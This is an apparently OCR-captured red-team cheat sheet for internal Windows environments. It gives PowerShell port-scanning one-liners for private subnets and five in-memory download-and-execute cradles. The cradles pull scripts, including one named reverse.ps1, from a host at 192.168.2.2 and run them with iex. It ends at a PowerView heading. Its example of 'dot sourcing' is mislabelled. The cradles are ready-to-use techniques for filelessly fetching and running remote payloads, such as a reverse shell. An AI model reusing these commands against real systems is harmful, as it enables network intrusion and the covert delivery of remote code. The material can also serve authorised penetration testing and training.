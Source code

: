 ### Red Team Internal Environment

#### Introduction 

- Tools like nmap, netcat or built-in utilities like PowerShell can also be used for enumeration purposes. 
- Below is the command for scanning open TCP ports from a PowerShell Query.

```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null  
```

- Below command will scan IP addresses 10.1.1.1-5 and some specific common TCP ports.

```powershell
 1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null} 
```

- Invoking a PowerShell Module 
- Scripts with extension “*.ps1”, “*.psm1”, “*.psd1” etc can be invoked in a specific 
- PowerShell session as follows : 

```powershell 
Import-Module <Module_Name.ps1>
```

- However a PowerShell script can be invoked in a unique way called “dot sourcing a 
script” 

```powershell
.\<Script_Name>.ps1
```

- PowerShell in-memory Download and Execute cradle :  

```powershell
iex (iwr 'http://192.168.2.2/file.ps1')

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1") 
$read = $down.GetResponse() 
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()


$file=New-Object -ComObject 
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.s
end();iex $file.responseText

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

$ie=New-Object -ComObject 
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘); 
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response 
```

### PowerView Enumeration
